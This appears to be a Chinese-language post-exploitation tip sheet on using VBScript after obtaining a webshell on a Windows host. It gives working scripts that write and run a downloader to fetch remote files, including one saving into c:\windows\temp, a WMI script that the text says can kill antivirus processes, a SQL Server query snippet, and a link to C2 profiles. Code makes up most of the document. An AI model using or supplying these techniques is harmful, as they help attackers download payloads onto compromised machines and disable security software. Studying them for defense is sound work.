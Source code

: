 ### vbs命令执行小tip

~~~
使用先决条件：
	假设我们先拿到了一个webshell且主机是windows主机，但是我们没有某些权限，或者相关命令被禁用，那么我们可以利用vbs来绕过
~~~

~~~
1.使用vbs下载文件
2.使用vbs绕过限制执行结束进程。
3.VBS 调用 SQL server执行命令。
~~~

##### 使用vbs下载文件

###### 代码1

~~~
这里就是我们将命令写入到1.vbs文件，调用vbs文件去远程下在logo.zip文件
~~~

~~~vbscript
echo Set xPost = CreateObject("Microsoft.XMLHTTP") >1.vbs 
echo xPost.Open "GET","http://baidu.com/logo.zip",0 >>1.vbs 
echo xPost.Send() >>1.vbs 
echo Set sGet = CreateObject("ADODB.Stream") >>1.vbs 
echo sGet.Mode = 3 >>1.vbs 
echo sGet.Type = 1 >>1.vbs 
echo sGet.Open() >>1.vbs 
echo sGet.Write(xPost.responseBody) >>1.vbs 
echo sGet.SaveToFile "logo.zip",2 >>1.vbs
~~~

###### 代码2

~~~vbscript
使用方式 cscript iget.vbs http://baidu.com/xx.jpg xx.jpg
~~~

~~~vbscript
iLocal = LCase(WScript.Arguments(1))   
iRemote = LCase(WScript.Arguments(0)) 
Set testPost = CreateObject("Microsoft.XMLHTTP") 
testPost.Open "GET",iRemote,0
testPost.Send() 
Set sGet = CreateObject("ADODB.Stream") 
sGet.Mode = 3
sGet.Type = 1
sGet.Open() 
sGet.Write(testPost.responseBody) 
sGet.SaveToFile iLocal,2
~~~

###### 代码3

~~~vbscript
Set yhnShell = CreateObject("Wscript.Shell")
Set yhnShell = CreateObject("Wscript.Shell")
Set sdfbPost = CreateObject("Microsoft.XMLHTTP") 
sdfbPost.Open "GET","http://www.baidu.com/img/bdlogo.gif",0
sdfbPost.Send() 
Set sdfbGet = CreateObject("ADODB.Stream") 
sdfbGet.Mode = 3
sdfbGet.Type = 1
sdfbGet.Open() 
sdfbGet.Write(sdfbPost.responseBody) 
Set sdfbPost = CreateObject("Microsoft.XMLHTTP") 
sdfbGet.SaveToFile "c:\windows\temp\bd.jpg",2
Set sdfbPost = CreateObject("Microsoft.XMLHTTP") 
wscript.quit
~~~

##### vbs绕过限制结束进程

~~~
修改代码内的net.exe进程名即可
我们权限够可以在webshell直接杀死杀软进程
~~~

~~~vbscript
strComputer="."
Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
Set colProcessList=objWMIService.ExecQuery ("select * from Win32_Process where Name='net.exe' ")
For Each objProcess in colProcessList
objProcess.Terminate()
Next
~~~

##### VBS 调用 SQL server执行命令

~~~vbscript
StrDSN="Provider=SQLOLEDB;Data Source=LAPTOP-DEV;Initial Catalog=master;Integrated Security=SSPI"
set Conn = CreateObject("ADODB.Connection") 
set Rs=CreateObject("ADODB.RecordSet")
Conn.Open StrDSN
Set Rs = conn.Execute("select @@version")
Do While Not rs.EOF
wscript.echo rs(0)
rs.MoveNext 
Loop
rs.close
~~~





#### C2侧写

https://hub.fastgit.xyz/rsmudge/Malleable-C2-Profiles/archive/refs/heads/master.zip

























